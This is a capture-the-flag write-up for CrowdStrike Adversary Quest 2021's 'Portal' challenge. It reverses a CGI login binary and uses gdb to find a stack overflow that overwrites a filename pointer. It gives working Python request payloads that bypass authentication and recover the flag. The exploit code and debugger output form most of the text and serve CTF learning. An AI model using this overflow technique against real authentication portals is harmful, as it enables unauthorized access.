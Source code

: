 # Crowdstrike Adversary Quest 2021 / Protective Penguin / #1 Portal

## Challenge Description
PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.
Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.
NOTE: Flags will be easily identifiable by following the format CS{some_secret_flag_text}. They must be submitted in full, including the CS{ and } parts.

## Authentication Portal, Local Files

```
./index.html
./run.sh
./cgi-bin
./cgi-bin/portal.cgi
./creds.txt
```

simple website with user/pass fields, validated by a cgi

    function auth() {
      let creds = {
        user: btoa(document.getElementById("input_username").value),
        pass: btoa(document.getElementById("input_password").value)
      };
      if (!creds.user) {
        notification("Empty username", "warning");
        return;
      }
      if (!creds.pass) {
        notification("Empty password", "warning");
        return;
      }

      fetch("/cgi-bin/portal.cgi", {
        method: "POST",
        body: JSON.stringify(creds),
      }).then(function (response) {
        return response.text();
      }).then(function (data) {
        let json = JSON.parse(data);
        if (json.status == "success") {
          notification(`Login success: ${json.flag}`, "success");

cgi gets a POST request with data in json, example for admin/admin
{"user":"YWRtaW4=","pass":"YWRtaW4="}

/usr/bin/checksec --file=cgi-bin/portal.cgi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0               3               cgi-bin/portal.cgi

reversing portal.cgi

high level:
main -> calls validate_creds with params b64_user, b64_pass
validate opens creds.txt, reads line by line, compares for valid creds
validate_creds returns 0 on success
main -> print flag on success

validate_creds has stack laylout
.text:0000000000401226                   lpb64password= qword ptr -240h
.text:0000000000401226                   lpb64username= qword ptr -238h
.text:0000000000401226                   stream= qword ptr -230h
.text:0000000000401226                   length_of_current_creds_line= qword ptr -228h
.text:0000000000401226                   var_220= dword ptr -220h
.text:0000000000401226                   var_21C= byte ptr -21Ch
.text:0000000000401226                   filename= qword ptr -18h
.text:0000000000401226                   stackCookie= qword ptr -8

var_220 is used as exit value (0 for success)
parsing of server local creds.txt happens line by line, reading up to 100h bytes with fgets into var_220 + 4 (range variable from -21Ch up to -11Dh)
b64 decoded username (up to 100h) bytes are saved to var_220 + 104 (range variable, from -11Ch up to -1Dh)
then a colon is added to decoded username (with max username length, e.g. at -1Ch)
b64 decoded password (up to 100h) bytes are saved to var_220 + 104 + strlen(username) + 1
with max size username from -1B up to and beyond stack frame border.


nope: its the right way, only path in non-dynamic memory is
fill up pass with \0 and then overwrite filename with offset $rax  : 0x00000000004002a8 → "/lib64/ld-linux-x86-64.so.2"

-> goal: user:pass combo to overwrite filename offset with 0x00000000004002a8
try with debug

ps auxwwg
kali      741831  0.0  0.0   2416   372 pts/0    S+   20:16   0:00 /bin/sh ./run.sh
kali      741832  0.0  0.9 245352 13628 pts/0    S+   20:16   0:01 python3 -m http.server --cgi --bind 127.0.0.1

gdb -p 741832

set follow-fork-mode child
set detach-on-fork off
b *0x401434     # main
b *0x401226     # validate_creds (see i64)
b *0x040131A    # fopen

gef➤  continue 
Continuing.
[New Thread 0x7fecaa6b6700 (LWP 743153)]
[Attaching after Thread 0x7fecaa6b6700 (LWP 743153) fork to child process 743154]
[New inferior 2 (process 743154)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Reading symbols from /usr/lib/debug/.build-id/2c/c4e3a93e8ef0f4dee8f77225701d988f97b9c7.debug...
Reading symbols from /usr/lib/debug/.build-id/5b/d08b8a2b8511c50cc5e38aac39305cfcae72f0.debug...
Reading symbols from /usr/lib/debug/.build-id/f5/efbcea815d5c6da19e62263f67ca63f8bedeb6.debug...
Reading symbols from /usr/lib/debug/.build-id/e8/ef1ac73913c5833fc0088ea41bc3331db60ae2.debug...
Reading symbols from /usr/lib/debug/.build-id/a5/a3c3f65fd94f4c7f323a175707c3a79cbbd614.debug...
Reading symbols from /usr/lib/debug/.build-id/63/7706dbbbd112d03fbad61ca30125b48e60aa92.debug...
Reading symbols from /usr/lib/debug/.build-id/a4/94b325fdefe9742c94fcd34c583c08733d2318.debug...
process 743154 is executing new program: /mnt/hgfs/Crowdstrike-Adversary-Quest-2021/protective penguin/portal/authportal/cgi-bin/portal.cgi
Reading symbols from /usr/lib/debug/.build-id/63/7706dbbbd112d03fbad61ca30125b48e60aa92.debug...
Reading symbols from /usr/lib/debug/.build-id/97/0fa8cc35554ed6f4feb2d663067310d48cadb4.debug...
Reading symbols from /usr/lib/debug/.build-id/a5/a3c3f65fd94f4c7f323a175707c3a79cbbd614.debug...
[Switching to process 743154]

Thread 2.1 "portal.cgi" hit Breakpoint 1, 0x0000000000401434 in ?? ()

# first line read with fgets from /lib64/...

gef➤  x/200x $rsi
0x7ffde4289cd4: 0x48    0x29    0xf8    0x41    0x0f    0xb6    0x3c    0x01
0x7ffde4289cdc: 0x48    0x89    0xc8    0x48    0x89    0xd1    0x41    0x88
0x7ffde4289ce4: 0x3a    0x48    0x83    0xf8    0x09    0x77    0xd1    0x4c
0x7ffde4289cec: 0x89    0xd8    0xba    0x19    0x00    0x00    0x00    0x49

we have 16 chars for username, colon, and then 11 chars pass before first \0
fill up pass with \0 and then overwrite filename with offset $rax  : 0x00000000004002a8 → "/lib64/ld-linux-x86-64.so.2"

>>> import requests
>>> from base64 import b64encode
>>> import json
>>> data['user'] = b64encode(b'\x48\x29\xf8\x41\x0f\xb6\x3c\x01\x48\x89\xc8\x48\x89\xd1\x41\x88').decode('utf-8')
>>> data['pass'] = b64encode(b'\x48\x83\xf8\x09\x77\xd1\x4c\x89\xd8\xba\x19' + b'\x00'*232 + b'\xa8\x02\x40').decode('utf-8')
>>> requests.post('http://127.0.0.1:8000/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "success", "flag": "CS{foobar}"}'

>>> requests.post('https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "err"}'

exploit works locally, but seems to fail on remote server
-> could be because the /lib64/ link is a soft link and might be a different version on server?
-> some memory issue?

grep for more colons, which might be less library version dependent

00022460: 6b00 0a70 7265 6c69 6e6b 2063 6865 636b  k..prelink check
00022470: 696e 673a 2025 730a 0066 6169 6c65 6400  ing: %s..failed.

>>> data['user'] = b64encode(b'prelink checking').decode('utf-8')
>>> data['pass'] = b64encode(b' %s' + b'\x00'*(260-16-1-3) + b'\xa8\x02\x40').decode('utf-8')
>>> requests.post('http://127.0.0.1:8000/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "success", "flag": "CS{foobar}"}'
>>> requests.post('https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi', data=json.dumps(data)).text
'{"status": "success", "flag": "CS{w3b_vPn_h4xx}"}'

flag: CS{w3b_vPn_h4xx}
